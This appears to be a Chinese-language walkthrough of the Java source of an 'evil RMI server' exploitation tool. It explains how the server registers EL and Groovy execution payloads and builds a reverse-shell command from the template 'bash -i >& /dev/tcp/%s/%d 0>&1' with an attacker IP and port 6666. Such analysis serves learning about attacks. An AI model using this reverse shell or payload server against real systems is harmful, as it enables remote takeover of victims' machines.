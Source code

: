 ```java
    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 2020");		
        Registry registry = LocateRegistry.createRegistry(2020);
        String ip = args[0];
        System.out.println(ip);
        EvilRMIServer evilRMIServer = new EvilRMIServer(new Listener(ip,6666));
        System.setProperty("java.rmi.server.hostname",ip);

        registry.bind("ExecByEL",evilRMIServer.execByEL());
        registry.bind("ExecByGroovy",evilRMIServer.execByGroovy());
    }
```

分析：

```java
Registry registry = LocateRegistry.createRegistry(2020);
```

* 创建并导出接受指定`port`请求的本地主机上的`Registry`实例。
* 就是说注册一个端口，即开放目标的端口，如：现在就是开启目标的2020端口



```java
String ip = args[0];
```

* args[0] 即接收传参的第一个数据.
* 所以我们需要指定程序入口，然后传入数据（IP）



```java
EvilRMIServer evilRMIServer = new EvilRMIServer(new Listener(ip,6666));
```

* 创建了`EvilRMIServer` 对象
* 创建了`Listener`对象，并初始化赋值（ip,6666）

查看功能：

```java
public EvilRMIServer(Listener listener){
        commandGenerator = new CommandGenerator(listener);
    }
```

同样是创建了对象，查看调用

`CommanGenerator.java`

```java
 public CommandGenerator(Listener listener){
        shellListener = listener;				//赋值   将我们初始的数据赋值给 shellListener
        reverseShellCommand = String.format(
                DEFAULT_COMMAND_TEMPLATE,		//定义的常量：bash -i >& /dev/tcp/%s/%d 0>&1
                shellListener.getIp(),			//调用Listener.java 获取IP
                shellListener.getPort());		//调用Listener.java 获取端口
    }
```
